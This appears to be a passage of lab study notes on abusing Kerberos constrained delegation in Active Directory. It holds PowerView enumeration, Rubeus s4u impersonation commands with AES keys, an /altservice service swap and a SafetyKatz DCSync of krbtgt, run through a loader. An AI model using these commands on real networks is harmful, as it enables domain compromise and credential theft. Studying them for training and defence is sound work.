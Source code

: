 To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

Test
```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

 
> [!NOTE] **NOTE**
> You can edit what services the machine/user account can access if you have `GenericAll/Write` rights to the first hop

#### Protocol Transition
We can change the protocol/service being accessed for the SPN. This is due to the SPN in the TGS being in clear-text and user editable.

**FOR MACHINE ACCOUNT AES KEYS ALWAYS USE THE ONE WHERE THE SID IS `S-1-5-18` AKA THE LAST ONE IN A LSADUMP**

Rubeus and the `/altservice` parameter
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:"mgmtsrv.tech.finance.corp" /altservice:http /ptt
```

Now run a DCSync 
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```